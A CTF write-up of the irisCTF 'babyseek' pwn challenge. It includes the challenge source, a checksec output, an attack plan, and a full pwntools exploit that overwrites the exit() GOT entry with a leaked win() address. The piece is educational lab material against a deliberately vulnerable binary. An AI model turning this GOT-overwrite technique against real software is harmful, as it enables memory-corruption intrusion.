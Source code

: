 ```yaml
---
title: "irisCTF babyseek"
date: 2023-02-01T12:13:32+05:30
description: "Oh no, ya didn't use Full RELRO... RIP GOT."
tags: [python, GOT, pwn]
---
```


## The Challenge

I'll let you seek around my file as far as you want, but you can't go anywhere since it's /dev/null.\
Author: sera\
[seek.zip](https://cdn.discordapp.com/attachments/1056103369695047750/1060457227770671104/seek.zip)\
`nc seek.chal.irisc.tf 10004`

## The Provided ZIP

- chal
  - Provided binary
- chal.c
  - Source which binary comes from
- Makefile
  - Provided compilation flags
- Dockerfile
  - Dockerfile running on the server

## Protections

```bash
[*] '/root/workspace/vr_pres2/seek/chal'
    Arch:           amd64-64-little
    RELRO:          No RELRO
    Stack:          No canary found
    NX:             NX enabled
    PIE:            PIE enabled
```

Welp, if we can overflow and overwrite the GOT, seems like we're in the home stretch. No canary is included either so we can buffer overflow.

## Wait, I see a win()

```c
#include <stdlib.h>
#include <stdio.h>

void win() {
    system("cat /root/workspace/vr_pres2/seek/flag.txt");
}
```

## chal.c main()

```c
printf("Your flag is located around %p.\n", win);       // Leaked win() function
FILE* null = fopen("/dev/null", "w");
int pos = 0;
void* super_special = &win;
fwrite("void", 1, 4, null);
printf("I'm currently at %p.\n", null->_IO_write_ptr);  // Leaked null pointer
printf("I'll let you write the flag into nowhere!\n");
printf("Where should I seek into? ");
scanf("%d", &pos);                                      // Integer input
null->_IO_write_ptr += pos;
fwrite(&super_special, sizeof(void*), 1, null);         // Overwrite???
exit(0)
```

## Plan of Attack

1. Get the leaked win() address
2. Get the leaked file pointer address
3. Calculate offset to overwrite GOT exit()
4. Input computed integer into scanf()
5. Overwrite GOT via fwrite()
6. Shell?

## Understanding fwrite()

```c
size_t fwrite(
    const void *ptr,    // Pointer to be written from 
    size_t size,        // Number of bytes to be written
    size_t nmemb,       // Number of elements to be written
    FILE *stream        // File pointer output
)
```

## Let's PWN

```py
p.recvuntil(b'Your flag is located around ')
win_leak = int(p.recvuntilS(b'.\n').strip(".\n"), 16)
print(f"Win func is at {hex(win_leak)}")
p.recvuntil(b'I\'m currently at ')
pointer_leak = int(p.recvuntilS(b'\n').strip(".\n"), 16)
print(f"Pointer is at {hex(pointer_leak)}")

got_address = e.got["exit"] + (win_leak - e.sym["win"])   # Get base address of program to exit GOT entry
overwrite_offset = got_address - pointer_leak             # Move pointer down over the GOT
overwrite_offset_str = str(overwrite_offset).encode()     # Make into bytes string for send

p.sendline(overwrite_offset_str)
p.recvall()
```

## Flag Acquired

`irisctf{not_quite_fseek}`

## Final Exploit Code

```py
# GOT overwritten lol
from pwn import *
context.log_level = 'debug'

# Setup for Run
binary = args.BIN
context.terminal = ["tmux", "splitw", "-h"]

gs = '''
continue
'''

# Load In Binary & ROPGadget it
e = context.binary = ELF(binary,checksec=False)
r = ROP(e)

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    else:
        return process(e.path)

# Stuff
p = start()

p.recvuntil(b'Your flag is located around ')
win_leak = int(p.recvuntilS(b'.\n').strip(".\n"), 16)
print(f"Win func is at {hex(win_leak)}")
p.recvuntil(b'I\'m currently at ')
pointer_leak = int(p.recvuntilS(b'\n').strip(".\n"), 16)
print(f"Pointer is at {hex(pointer_leak)}")

got_address = e.got["exit"] + (win_leak - e.sym["win"])   # Get base address of program to exit GOT entry
overwrite_offset = got_address - pointer_leak             # Move pointer down over the GOT
overwrite_offset_str = str(overwrite_offset).encode()     # Make into bytes string for send

p.sendline(overwrite_offset_str)
p.recvall()
```
